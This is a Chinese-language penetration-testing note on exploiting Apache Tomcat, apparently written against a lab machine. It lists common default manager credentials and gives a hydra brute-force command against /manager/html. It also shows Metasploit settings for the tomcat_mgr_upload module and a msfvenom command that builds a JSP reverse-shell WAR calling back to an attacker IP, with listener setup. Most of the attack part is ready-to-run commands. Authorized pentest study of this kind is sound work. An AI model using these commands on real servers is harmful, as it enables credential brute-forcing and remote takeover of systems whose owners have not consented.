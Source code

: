 ```yaml
---
title: Apache Tomcat 漏洞利用
date: 2021/12/12
tags: [渗透测试,漏洞利用]
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_16.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_16.jpg
---
```




# Apache Tomcat 漏洞利用

---

[参考链接1](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

[参考链接2](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

**通过对apache tomcat的枚举和利用，我们可以从中找出漏洞，然后得到shell**

- 在这里列举出两种情况，第一种情况是哦我们能够访问到/manager目录，第二种情况是我们不能访问到该目录

## 枚举

- 在 Tomcat6 之前的某些版本中，我们可以使用msf枚举用户：

```
msf> use auxiliary/scanner/http/tomcat_enum
```

- 常见的得到的用户名与密码是：

    - admin:admin

    - tomcat:tomcat

    - admin:<NOTHING>

    - admin:s3cr3t

    - tomcat:s3cr3t

    - admin:tomcat

- 当然，我们也可以使用hydra进行暴力破解

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

- 得到了用户名与密码后，我们就可以登录到 /manager/html下传输反向shell

## RCE

- 我们可以使用msf，当然有时候这个并不起效果

```
use exploit/multi/http/tomcat_mgr_upload
show options
set RHOSTS 
set RPORT 8080
set HttpPassword 
set HttpUsername 
set LHOST 
exploit
```

- 当我们使用msf没有用时，我们可以自己制造一个shell传输到网页上
- 创建一个msfvenom payload

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=9999 -f war -o rshell.war
```

- 使用msf的监听模块进行监听（这有时候会收不到反弹回来的shell），或者使用nc监听端口

```
use exploit/multi/handler
show options
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.14.10
set LPORT 9999
exploit
```

- 完成这些后，我们将shell文件传输到web上，如果我们不能访问/manager/，那么就无法进行下一步
- 点击上传的文件在web中的地址，如果监听器没能收到shell，我们可以解压缩之前使用msfvenom创建的 .war 文件，将里面的  .jsp 文件上传，并且访问其网络链接

[点击该链接，说的很全面，但是要按情况选择](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

